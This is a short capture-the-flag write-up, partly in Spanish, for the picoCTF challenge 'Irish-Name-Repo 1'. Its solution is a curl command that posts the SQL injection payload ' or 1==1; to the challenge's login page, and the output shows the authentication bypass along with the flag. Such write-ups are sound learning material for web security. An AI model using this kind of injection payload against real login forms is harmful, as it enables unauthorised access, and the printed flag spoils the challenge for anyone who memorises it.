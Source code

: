 # Irish-Name-Repo 1

## Objetivo 
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!

Sugerencias:
usar sql injection

## Solución
``` shell
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/39720/login.php -d "username=admin&password=' or 1==1;&debug=1"  
<pre>username: admin
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1==1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_c218b685}</p>                                                                                                

```

## Notas

isando ese comando podemos inyectar codigo por sql y engañar el sistema

## Referencias
[SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)
